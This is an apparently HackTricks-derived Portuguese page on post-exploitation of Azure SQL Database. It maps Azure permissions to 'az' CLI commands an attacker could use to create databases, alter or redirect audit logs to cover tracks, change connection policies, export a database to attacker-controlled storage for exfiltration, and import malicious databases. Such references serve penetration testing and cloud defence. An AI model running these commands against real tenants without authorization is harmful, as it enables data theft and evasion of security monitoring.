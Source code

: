 # Az - SQL Database Pós Exploração

{{#include ../../../banners/hacktricks-training.md}}

## Pós Exploração de Banco de Dados SQL

Para mais informações sobre Banco de Dados SQL, consulte:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/databases/read", "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/databases/write"

Com essas permissões, um atacante pode criar e atualizar bancos de dados dentro do ambiente comprometido. Essa atividade de pós-exploração pode permitir que um atacante adicione dados maliciosos, modifique configurações de banco de dados ou insira backdoors para maior persistência, potencialmente interrompendo operações ou permitindo ações maliciosas adicionais.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### "Microsoft.Sql/servers/elasticPools/write" && "Microsoft.Sql/servers/elasticPools/read"

Com essas permissões, um atacante pode criar e atualizar elasticPools dentro do ambiente comprometido. Essa atividade de pós-exploração pode permitir que um atacante adicione dados maliciosos, modifique configurações de banco de dados ou insira backdoors para maior persistência, potencialmente interrompendo operações ou permitindo ações maliciosas adicionais.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### "Microsoft.Sql/servers/auditingSettings/read" && "Microsoft.Sql/servers/auditingSettings/write"

Com essa permissão, você pode modificar ou habilitar as configurações de auditoria em um Azure SQL Server. Isso pode permitir que um atacante ou usuário autorizado manipule as configurações de auditoria, potencialmente encobrindo rastros ou redirecionando os logs de auditoria para um local sob seu controle. Isso pode dificultar a monitorização de segurança ou permitir que ela acompanhe as ações. NOTA: Para habilitar a auditoria para um Azure SQL Server usando Blob Storage, você deve anexar uma conta de armazenamento onde os logs de auditoria podem ser salvos.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### "Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read", "Microsoft.Sql/servers/connectionPolicies/read" && "Microsoft.Sql/servers/connectionPolicies/write"

Com essa permissão, você pode modificar as políticas de conexão de um Azure SQL Server. Essa capacidade pode ser explorada para habilitar ou alterar configurações de conexão em nível de servidor.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### "Microsoft.Sql/servers/databases/export/action"

Com esta permissão, você pode exportar um banco de dados de um Azure SQL Server para uma conta de armazenamento. Um atacante ou usuário autorizado com essa permissão pode exfiltrar dados sensíveis do banco de dados exportando-o para um local que eles controlam, representando um risco significativo de violação de dados. É importante conhecer a chave de armazenamento para poder realizar isso.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### "Microsoft.Sql/servers/databases/import/action"

Com esta permissão, você pode importar um banco de dados para um Azure SQL Server. Um atacante ou usuário autorizado com essa permissão pode potencialmente fazer upload de bancos de dados maliciosos ou manipulados. Isso pode levar ao controle sobre dados sensíveis ou à incorporação de scripts ou gatilhos prejudiciais dentro do banco de dados importado. Além disso, você pode importá-lo para seu próprio servidor no Azure. Nota: O servidor deve permitir que serviços e recursos do Azure acessem o servidor.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri "https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac"
```
{{#include ../../../banners/hacktricks-training.md}}
